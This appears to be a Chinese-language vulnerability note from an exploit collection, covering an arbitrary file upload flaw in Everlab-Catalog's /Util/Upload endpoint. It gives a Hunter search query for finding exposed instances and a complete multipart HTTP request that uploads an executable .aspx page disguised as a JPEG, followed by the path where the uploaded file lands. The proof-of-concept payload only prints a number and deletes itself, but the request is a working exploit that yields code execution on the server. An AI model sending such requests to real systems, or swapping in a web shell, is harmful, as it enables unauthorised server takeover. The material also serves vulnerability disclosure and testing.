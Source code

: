 # 一、漏洞简介
Everlab-Catalog Util/Upload存在文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ Everlab-Catalog 

# 三、资产测绘
+ Hunter`web.body="Everlab-Catalog"`
+ 特征

![](images/1703513896192-bf6c7b0e-1d5e-4545-b55a-407ad59256a2.png)

# 四、漏洞复现
```java
POST /Util/Upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Content-Length: 345
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------7153094104923513110228090822
Origin: null
Upgrade-Insecure-Requests: 1
Connection: close

-----------------------------7153094104923513110228090822
Content-Disposition: form-data; name="Filedata"; filename="ckviaxtcmw.aspx"
Content-Type: image/jpeg

<%@ Page Language="C#"%><% Response.Write(111*111);System.IO.File.Delete(Server.MapPath(Request.Url.AbsolutePath)); %>
-----------------------------7153094104923513110228090822--

```

![](images/1718613623028-37a8a362-4111-41bf-8f0e-32e4c63de1ef.png)

```java
/upload/2024/06/17/a005b1e3-a03e-4faf-bbdf-955c0a26bc29.aspx
```

![](images/1718613639149-84569b71-1a54-4641-bf0f-9337835edb3f.png)

